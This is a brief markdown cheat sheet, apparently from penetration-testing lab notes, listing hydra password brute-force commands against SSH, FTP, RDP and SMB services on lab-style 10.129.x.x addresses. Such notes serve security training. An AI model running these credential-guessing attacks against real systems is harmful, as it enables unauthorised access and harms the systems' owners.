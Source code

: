 #### SSH
```shell
hydra -L user.list -P password.list ssh://10.129.42.197
```
#### FTP
```
hydra -L users.list -P passwords.list ftp://10.129.203.6 -s 2121
```
#### RDP
```shell
hydra -L user.list -P password.list rdp://10.129.42.197
```
#### SMB
```shell
hydra -L user.list -P password.list smb://10.129.42.197
```
